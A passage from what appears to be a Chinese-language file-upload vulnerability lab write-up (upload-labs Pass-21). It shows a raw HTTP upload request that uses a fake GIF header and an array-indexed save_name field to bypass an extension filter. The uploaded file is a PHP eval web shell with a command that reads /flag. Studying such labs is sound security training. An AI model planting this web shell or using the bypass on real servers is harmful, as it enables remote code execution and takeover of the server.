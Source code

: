 ​	

![image-20240831193052897](https://image.201068.xyz/assets/26.文件上传/image-20240831193052897.png)

```php
POST /Pass-21/index.php HTTP/1.1
Host: 192.168.70.10
Content-Length: 569
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.70.10
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryhY0AwL9SuFVXpVlO
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.70.10/Pass-21/index.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: BEEFHOOK=MByrcr5Ki6e1SP1dgaxaDS80bEuVKn2z5CzQMl7iHG0YDHOQKfQoGjhYc0MKB5W9Er41hmBSlxZt57Td
Connection: keep-alive

------WebKitFormBoundaryhY0AwL9SuFVXpVlO
Content-Disposition: form-data; name="upload_file"; filename="1.php"
Content-Type: image/jpeg

GIF89a
<?php @eval($_POST['xxx']);?>
</br>
<?php system('cat /flag');?>

------WebKitFormBoundaryhY0AwL9SuFVXpVlO
Content-Disposition: form-data; name="save_name[0]"

1.php
------WebKitFormBoundaryhY0AwL9SuFVXpVlO
Content-Disposition: form-data; name="save_name[3]"

jpg
------WebKitFormBoundaryhY0AwL9SuFVXpVlO
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundaryhY0AwL9SuFVXpVlO--


```



## **6**.实战⽂件上传挖掘流程：

